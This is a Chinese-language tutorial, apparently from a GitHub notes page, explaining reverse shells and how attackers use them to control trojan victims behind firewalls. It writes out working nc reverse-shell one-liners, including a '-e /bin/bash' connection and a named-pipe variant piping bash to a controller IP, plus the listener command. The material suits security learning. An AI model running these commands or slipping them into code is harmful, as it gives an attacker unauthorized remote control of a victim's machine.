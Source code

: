 # 反弹Shell理解与应用

参考文章

[反弹shell是什么](https://www.zhihu.com/question/24503813)

[*Unix系统NC反弹shell的方法](http://www.91ri.org/9615.html)

## 1. 什么是反弹Shell

反弹Shell(Reverse Shell), 就是控制端监听在某TCP/UDP端口(一般是固定ip与固定端口), 被控端主动发起请求到该端口, 将其操作终端的输入输出与控制端连接起来. `reverse shell`与`telnet`, `ssh`等标准shell对应, 本质上是网络概念的客户端与服务端的角色反转.

假设我们攻击了一台机器, 打开了该机器的一个端口, 攻击者在自己的机器去连接目标机器（目标ip：目标机器端口）, 这是比较常规的形式, 我们叫做**正向连接**. 远程桌面, web服务, ssh, telnet等等, 都是正向连接. 

那么什么情况下正向连接不太好用了呢？

1. 某客户机中了你的网马, 但是它在局域网内, 你直接连接不了. 它的ip会动态改变, 你不能持续控制. 
2. 由于防火墙等限制, 对方机器只能发送请求, 不能接收请求. 
3. 对于病毒, 木马, 受害者什么时候能中招, 对方的网络环境是什么样的, 什么时候开关机, 都是未知, 所以建立一个服务端, 让恶意程序主动连接, 才是上策. 那么反弹就很好理解了,  攻击者指定服务端, 受害者主机主动连接攻击者的服务端程序, 就叫反弹连接. 

这种一般是你已经通过某种方式上传了你的木马并骗过了管理员让他执行了这个木马. 这里不讲如何上传木马, 只介绍反弹Shell的创建方式.

## 2. 反弹Shell的方法-nc

通常的方法是使用`nc`命令, 控制端通过`nc`监听特定端口, 客户端通过各种方式将其本地的bash与控制端连接起来.

比如, 控制端执行如下命令监听本地2222端口.

```
$ nc -lv 2222
```

被控端可以通过如下命令建立与控制端的连接(不只是建立连接, 还需要将其本地的bash输入输出与控制端连接起来)

```
$ nc 172.16.26.109 2222 -e /bin/bash
```

`-e`的同名选项为`--exec`, 直接就将本地的bash暴露给了控制端. 但是为了安全, 一般不会编译-e选项, 也就无法反弹shell. 但是可以变换一下思路, 不直接使用NC反弹shell, 而是反弹一个拥有shell权限的**管道**. 

```
$ mknod backpipe p; nc 172.16.11.2 9999 0<backpipe | /bin/bash 1>backpipe
```

在控制端nc输出中你可以看到类似如下的信息时, 说明有被控端连接上来了.

```
$ nc -lv 2222
Connection from 172.16.9.89 port 2222 [tcp/EtherNet/IP-1] accepted
```

